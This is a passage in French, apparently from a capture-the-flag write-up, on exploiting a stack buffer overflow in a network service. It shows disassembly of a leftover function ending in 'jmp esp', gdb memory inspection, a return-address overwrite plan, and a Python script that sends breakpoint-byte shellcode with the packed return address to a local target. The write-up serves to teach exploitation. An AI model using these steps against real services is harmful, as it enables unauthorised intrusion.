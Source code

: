 Intéressant ! En plus de la fonction vulnérable *v2*, le programme a des fonctions *v1* et *v0* qui sont sans doute des anciennes versions laissées dans le code.  

Qu'il y a t-il dans *v0* ?  

```nasm
[0x080485a0]> pdf@sym.v0
/ (fcn) sym.v0 13
|          0x0804868c    55           push ebp
|          0x0804868d    89e5         mov ebp, esp
|          0x0804868f    a128000000   mov eax, [0x28]
|          0x08048694    83ec2c       sub esp, 0x2c
\          0x08048697    ffe4         jmp esp
```

Et que trouve t'on dans `esp-0x2c` ? (merci gdb)  

```
(gdb) x/s $esp-0x2c
0xffc6dfb4:     'A' <repeats 36 times>, "BBBBCCCCDD"
```

Bingo ! Le début de la seconde commande :)  

L'exploitation se fera par conséquent via l'envoi d'une seconde commande commençant par un shellcode suivit par l'adresse de retour qui sera `0x08048694` qui appellera un morceau de *v0* pour sauter sur le début du shellcode :)  

Ça nous laisse donc 50 octets pour mettre notre shellcode + les nops... argh !  

Si on regarde [sur shell-storm](http://www.shell-storm.org/shellcode/), trouver un shellcode network-aware de cette taille est mission impossible.  

La solution est alors de trouver par exemple où est stocké la première commande dans la pile et de sauter dessus depuis notre petit shellcode (seconde commande).  

Pour cela on modifie un peu notre programme de crash en Python : cette fois on y met un petit shellcode composé de breakpoints (0xCC).  

De cette manière on pourra chercher l'adresse de la première commande dans la pile en condition réelle (au lieu de faire des calculs pour savoir où l'on en est des push/pop).  

```python
#!/usr/bin/python
import socket
import time
import struct

target = '127.0.0.1'

s = socket.socket()
s.connect((target, 65535))
time.sleep(0.5)
# send first command
s.send("hello")
time.sleep(0.5)

#send second command
s.send("\xcc" * 50 + struct.pack("I", 0x08048694))
print "sent"
time.sleep(5)
s.close()
print "done"
```
